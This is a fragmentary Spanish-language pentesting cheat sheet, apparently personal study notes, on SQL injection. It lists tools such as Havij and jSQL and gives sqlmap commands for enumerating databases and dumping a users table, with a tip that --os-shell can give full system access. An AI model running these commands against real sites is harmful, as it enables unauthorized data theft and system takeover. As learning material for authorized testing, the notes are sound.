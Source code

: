 ```sql
select * from user;
```

---

## 4. Herramientas Adicionales para SQL Injection

### Alternativas a SQLMap:
- **Mole** - https://sourceforge.net
- **jSQL Injection** - https://github.com
- **NoSQLMap** - https://github.com  
- **Havij** - https://github.com
- **blind_sql_bitshifting** - https://github.com

---

## Notas Importantes

### Consideraciones de Seguridad:
- Siempre usar estas técnicas solo en entornos autorizados
- Documentar todos los hallazgos encontrados
- Las cookies de sesión son críticas para mantener la autenticación

### Tips Prácticos:
- Anotar siempre la URL completa cuando se encuentra una vulnerabilidad
- Las cookies deben copiarse exactamente como aparecen
- Usar `sudo su` para permisos de root cuando sea necesario
- El parámetro `--os-shell` en SQLMap puede proporcionar acceso completo al sistema

---

> Última actualización: 15 sept 2025

### SQLMAP
**Objetivo:** Detección y explotación de SQL injection.

**Entorno:** Parrot OS

```bash
# Básico con GET parameter
sqlmap -u "http://target.com/page.php?id=1"

# Con cookie de sesión
sqlmap -u "http://target.com/page.php" --cookie="PHPSESSID=abc123"

# POST data
sqlmap -u "http://target.com/login.php" --data="user=admin&pass=test"

# Enumerar bases de datos
sqlmap -u "target_url" --dbs

# Enumerar tablas
sqlmap -u "target_url" -D database_name --tables

# Dump data
sqlmap -u "target_url" -D database_name -T users --dump
```

---